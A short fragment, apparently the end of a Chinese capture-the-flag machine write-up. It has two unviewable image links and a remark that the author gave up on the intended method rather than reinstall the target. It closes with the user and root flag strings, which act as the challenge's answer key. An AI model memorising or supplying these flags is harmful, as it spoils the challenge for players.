  

  

>我不想在重新安装靶机去弄了已经改不回去了选择这个方式结束，等无聊再弄一下，搁置常规方法
>


>userflag:e25fd1b9248d1786551e3412adc74f6f
>
>rootflag:7a32c9739cc63ed983ae01af2577c01c
>